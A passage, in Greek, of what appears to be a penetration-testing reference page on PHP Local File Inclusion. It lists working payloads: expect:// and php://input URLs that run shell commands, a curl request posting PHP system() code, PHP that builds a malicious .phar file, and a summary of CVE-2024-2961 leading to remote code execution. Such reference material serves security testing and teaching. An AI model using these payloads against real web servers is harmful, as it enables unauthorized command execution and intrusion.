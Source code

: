 ### expect://

Το Expect πρέπει να είναι ενεργοποιημένο. Μπορείτε να εκτελέσετε κώδικα χρησιμοποιώντας αυτό:
```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
### input://

Καθορίστε το payload σας στις παραμέτρους POST:
```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```
### phar://

Ένα αρχείο `.phar` μπορεί να χρησιμοποιηθεί για την εκτέλεση κώδικα PHP όταν μια διαδικτυακή εφαρμογή εκμεταλλεύεται συναρτήσεις όπως `include` για τη φόρτωση αρχείων. Το παρακάτω απόσπασμα κώδικα PHP δείχνει τη δημιουργία ενός αρχείου `.phar`:
```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```
Για να συντάξετε το αρχείο `.phar`, θα πρέπει να εκτελέσετε την παρακάτω εντολή:
```bash
php --define phar.readonly=0 create_path.php
```
Κατά την εκτέλεση, θα δημιουργηθεί ένα αρχείο με το όνομα `test.phar`, το οποίο θα μπορούσε ενδεχομένως να χρησιμοποιηθεί για την εκμετάλλευση ευπαθειών Local File Inclusion (LFI).

Σε περιπτώσεις όπου το LFI εκτελεί μόνο ανάγνωση αρχείων χωρίς να εκτελεί τον PHP κώδικα μέσα σε αυτά, μέσω συναρτήσεων όπως `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, ή `filesize()`, θα μπορούσε να επιχειρηθεί η εκμετάλλευση μιας ευπάθειας αποσυμπίεσης. Αυτή η ευπάθεια σχετίζεται με την ανάγνωση αρχείων χρησιμοποιώντας το πρωτόκολλο `phar`.

Για μια λεπτομερή κατανόηση της εκμετάλλευσης ευπαθειών αποσυμπίεσης στο πλαίσιο των αρχείων `.phar`, ανατρέξτε στο έγγραφο που συνδέεται παρακάτω:

[Phar Deserialization Exploitation Guide](phar-deserialization.md)

{% content-ref url="phar-deserialization.md" %}
[phar-deserialization.md](phar-deserialization.md)
{% endcontent-ref %}

### CVE-2024-2961

Ήταν δυνατόν να καταχραστεί **οποιοδήποτε αυθαίρετο αρχείο που διαβάζεται από PHP που υποστηρίζει φίλτρα php** για να αποκτηθεί RCE. Η λεπτομερής περιγραφή μπορεί να [**βρεθεί σε αυτή την ανάρτηση**](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)**.**\
Πολύ γρήγορη περίληψη: μια **υπερχείλιση 3 byte** στο σωρό PHP καταχράστηκε για να **αλλάξει την αλυσίδα των ελεύθερων κομματιών** συγκεκριμένου μεγέθους προκειμένου να είναι δυνατή η **γραφή οτιδήποτε σε οποιαδήποτε διεύθυνση**, έτσι προστέθηκε ένα hook για να καλέσει **`system`**.\
Ήταν δυνατόν να κατανεμηθούν κομμάτια συγκεκριμένων μεγεθών καταχρώντας περισσότερα φίλτρα php.
